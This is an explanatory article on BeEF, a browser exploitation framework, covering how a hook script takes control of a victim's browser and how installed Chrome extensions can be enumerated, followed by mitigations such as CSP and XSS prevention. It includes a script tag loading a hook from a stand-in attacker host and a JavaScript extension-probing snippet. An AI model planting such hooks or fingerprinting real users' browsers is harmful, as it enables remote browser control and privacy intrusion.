 <br>

# BeEF (Browser Exploitation Framework)
BeEF (Browser Exploitation Framework) is **a penetration testing tool that focuses on browser vulnerabilities and client-side exploitation**. It is often used to assess the security posture of web browsers and applications. A BeEF hook enables an attacker to control and manipulate a hooked browser remotely after the victim visits a malicious or compromised web page.

## 1. What is a BeEF Hook?
  - Hook: **The BeEF hook is a JavaScript payload that is injected into the victim’s browser**.
  - Once hooked, the browser connects back to the attacker’s BeEF server, allowing the attacker to execute commands and gather information.
  - The hook is typically inserted
    - By embedding a \<script> tag into a compromised webpage.
    - Through XSS (Cross-Site Scripting) vulnerabilities.
    - Via social engineering (e.g., phishing pages).

### Basic Example of a Hook Script  

```
<script src="http://attacker.com/hook.js"></script>
```

When the victim loads this script, the browser gets “hooked,” and the attacker gains control.


## 2. Extracting Information About Chrome Extensions
Once a browser is hooked using BeEF, the **attacker can gather various details, including Chrome extension information**. This is particularly concerning because browser extensions may contain sensitive data, such as:
  - User data stored by the extensions.
  - Extension names and IDs.
  - Behavioral insights (e.g., installed security tools).

## 3. Method of Getting Chrome Extension Information
  - BeEF uses JavaScript running in the context of the victim’s browser to enumerate the URLs and structure associated with Chrome extensions.

### How Chrome Extensions Work
- Chrome extensions are installed in the browser and are typically loaded as a Chrome extension URL.
- Example of a Chrome extension URL:  

```
chrome-extension://<extension-id>/<file-path>
```

### Enumeration of Chrome Extensions
1. The attacker uses the BeEF framework to inject code that attempts to load resources from common extension paths.
2. By observing errors or successful loads, the attacker can infer which extensions are installed.


## 4. Example BeEF Module: Enumerating Extensions
Using BeEF, an attacker can leverage the “Get Chrome Extensions” module, which attempts to detect popular Chrome extensions by loading known resource paths.

### Example Code to Enumerate Extensions  

```
var extensionIds = [
  "aapocclcgogkmnckokdopfmhonfmgoek", // Example extension ID
  "mhjfbmdgcfjbbpaeojofohoefgiehjai"  // Another example
];

extensionIds.forEach(function(id) {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "chrome-extension://" + id + "/manifest.json", true);
  xhr.onreadystatechange = function() {
    if (xhr.readyState == 4) {
      if (xhr.status == 200) {
        console.log("Extension Found: " + id);
      }
    }
  };
  xhr.send();
});
```

### How It Works
1. The script checks known Chrome extension URLs (e.g., /manifest.json).
2. If the request succeeds (200 OK), it confirms the extension is installed.
3. The results are sent back to the BeEF control server.


## 5. Practical Implications
  - **Privacy Concerns**
    - Extensions like password managers, ad blockers, and VPNs can be detected, compromising user privacy.
  - **Targeted Attacks**
    - Knowing which security extensions are installed allows attackers to craft targeted exploits.
  - **Security Bypasses**
    - Attackers can identify and disable security-focused extensions using further social engineering or browser vulnerabilities.

## 6. Prevention and Mitigation
1. **Avoid Untrusted Websites**
  - Do not visit untrusted or malicious sites where the BeEF hook script could be embedded.
2. **Secure Against XSS**
  - Ensure web applications are free of XSS vulnerabilities to prevent BeEF hooks.
3. **Limit Permissions for Extensions**
  - Install extensions only from trusted sources and review their permissions.
4. **Use Content Security Policy (CSP)**
  - A strict CSP can block untrusted scripts, including BeEF hooks.
5. **Browser Security Tools**
  - Use browser settings and extensions that restrict JavaScript execution on untrusted sites.
6. **Monitor Browser Behavior**
  - Regularly check for unusual network connections or JavaScript activity.

## 7. Summary

| Aspect | Details |
| ------ | ------- |
| What is BeEF? | A browser exploitation framework for assessing browser security. |
| What is a Hook? | A malicious JavaScript payload that connects a victim’s browser to BeEF. |
| Chrome Extensions | BeEF can enumerate installed Chrome extensions by checking known paths. |
| Exploitation Method | Requests are sent to chrome-extension://<id> paths like /manifest.json. |
| Implications | Privacy exposure, targeted attacks, and bypassing security extensions. |
| Mitigation | Avoid untrusted sites, patch XSS, enforce CSP, and limit extension usage. |

**The BeEF hook is a powerful tool for browser exploitation, enabling attackers to enumerate Chrome extensions and gather critical information**. By understanding how BeEF works and employing strong web security practices—like input sanitization, CSP policies, and careful use of extensions—users and developers can defend against these attacks.  
<br>
